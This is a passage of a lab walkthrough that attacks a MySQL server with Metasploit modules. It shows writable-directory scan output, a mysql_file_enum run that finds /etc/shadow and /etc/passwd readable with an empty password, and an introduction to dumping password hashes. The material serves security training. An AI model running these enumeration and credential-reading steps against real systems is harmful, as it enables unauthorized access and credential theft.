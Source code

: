 ```bash
[!] 192.49.51.3:3306 - Can't create/write to file '/dir/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306 - Checking /Benefits...
[!] 192.49.51.3:3306 - Can't create/write to file '/Benefits/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306 - Checking /Data...
[!] 192.49.51.3:3306 - Can't create/write to file '/Data/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306 - Checking /Invitation...
[!] 192.49.51.3:3306 - Can't create/write to file '/Invitation/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306 - Checking /Office...
[!] 192.49.51.3:3306 - Can't create/write to file '/Office/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306 - Checking /Site...
[!] 192.49.51.3:3306 - Can't create/write to file '/Site/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306 - Checking /Admin...
[!] 192.49.51.3:3306 - Can't create/write to file '/Admin/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306 - Checking /etc...
[!] 192.49.51.3:3306 - Can't create/write to file '/etc/UlxAUnoc' (Errcode: 13)
```

![Metasploit - mysql_writable_dirs](assets/image-20230219160242823.png)

> 📌 `2` directories are writable: `/tmp` and `/root`

- Use the [`mysql_file_enum`](https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_file_enum/) metasploit module to enumerate readable files.

```bash
msfconsole
```

```bash
use auxiliary/scanner/mysql/mysql_file_enum
set RHOSTS 192.49.51.3
set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
set PASSWORD ""
exploit
```

```bash
[+] 192.49.51.3:3306 - /etc/passwd
[+] 192.49.51.3:3306 - /etc/shadow
[+] 192.49.51.3:3306 - /etc/group
[+] 192.49.51.3:3306 - /etc/mysql/my.cn
[+] 192.49.51.3:3306 - /etc/hosts
[+] 192.49.51.3:3306 - /etc/hosts.allow
[+] 192.49.51.3:3306 - /etc/hosts.deny
[+] 192.49.51.3:3306 - /etc/issue
[+] 192.49.51.3:3306 - /etc/fstab
[+] 192.49.51.3:3306 - /proc/version
```

![Metasploit - mysql_file_enum](assets/image-20230219161029085.png)

> 📌 `10` sensitive files are readable: `/etc/passwd`, `/etc/shadow`, `/etc/group`, `/etc/mysql/my.cn`, `/etc/hosts`, `/etc/hosts.allow`, `/etc/hosts.deny`, `/etc/issue`, `/etc/fstab`, `/proc/version`

- Use the [`mysql_hashdump`](https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_hashdump/) metasploit module to list database users and their password hashes.
